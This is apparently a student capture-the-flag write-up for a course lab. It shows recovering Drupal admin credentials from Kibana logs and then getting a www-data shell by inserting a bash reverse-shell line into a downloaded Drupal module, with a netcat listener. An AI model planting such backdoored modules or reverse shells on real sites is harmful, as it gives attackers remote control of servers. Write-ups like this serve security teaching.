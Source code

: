     
## Task 2 -  Web access

Now, we had access to the correct Drupal consol, but not the correct credentials to enter the admin console. We were given the forenesics evidence from Kibana, of over 87,000 hits, so some filtering needed to be done before finding what we were looking for. 

First, we thought that a great place to start looking for credentials was at the `http POST request` messages. When a user logs in, or tries to log in, a http POST request is sent, and a successfull or unsuccessful response is received in return. Then, after adding the filter `http.request.method: POST` we were left with 19 hits. 

When starting looking through some of them, we noticed that several of them tried to access the `user/login` page, and thought that this filter might give us an ever more narrow search. As seen bellow, adding the filer `http.request.headers.referer: http://10.13.37.4/user/login` left us with just 3 hits. 

 ![image](https://user-images.githubusercontent.com/72946914/167696514-2b4ac726-2db8-4f0f-b37b-3dca1585a008.png)

Three different passwords are tried by the attacker, and most likely his last attempt was the successful one. By checking the `http.response` message in this record, we could inndeed see that the user was redirected to `http://10.13.374/user/1?check_logged_in=1`, indicating that the attempt was successful. 

Our thought got confirmed when entering the username *god* and the password *password1* and got successfully logged in. 
![image](https://user-images.githubusercontent.com/72946914/164683204-efd1c930-bdf7-4b6b-931f-da415ef65e74.png)

Navigating to the users profile information, we located the flag. 

![image](https://user-images.githubusercontent.com/72946914/164683266-c8d87f3d-890f-48b5-ac09-b87d4565be54.png)

**`Flag: IKT449{admin_access=god}`**

## Task 3 - www-data

We already knew that we had to use the technique of reverse shell to get interactive access to www-data, which also could be seen in the logs from Kibana. By investigating the hits from the previous task, we also saw that the Drupal version running at this site was Drupal 9. 

With a quick Google search at "drupal 9 reverse shell" we found several websites explaining the way forward for carrying out this attack. Apparently, several Drupal versions are vulnerable to remote code execution due to an insecure use of `unserialize()` [(source)](https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/). One of the sites we found [(link)](https://www.sevenlayers.com/index.php/257-drupal-8-to-reverse-shell) provided us with a well-explained step-by-step guide which we benefitted from. 

The guide describes how one can exploit the use of modules in Drupal by inserting code into a `.module` file. At Drupal's own website we downloaded a random module compatible with Drupal 9, in this case called *codefiler*. 

![image](https://user-images.githubusercontent.com/72946914/167477793-47ba477e-a9c9-4883-9b94-d996eb0385b1.png)


After unzipping the module, we added the following code line, with our designated IP address and the desired port number, to the file called `codefilter.module` : 

    exec("/bin/bash -c 'bash -i >& /dev/tcp/ip_address/portnumber 0>&1'");
![image](https://user-images.githubusercontent.com/70077872/167573750-8dca4946-dd94-4f2d-8923-ecbda7b62a48.png)

 At the same time, a port listener was started in a terminal window by executing the command `nc -nvlp portnumber`. 


After uploadning the module, enabling it and installing it for use, we got a shell to www-data. 

![image](https://user-images.githubusercontent.com/70077872/167573128-1848a4ee-8881-4bbb-96e2-9aabb47cfe50.png)

The flag was located in `www-data.txt`.

![image](https://user-images.githubusercontent.com/70077872/167573357-162e2f3f-67d6-414f-bfb7-b871ac042453.png)

**`Flag: IKT449{who_would_have_thought_adding_modules_is_bad}`**
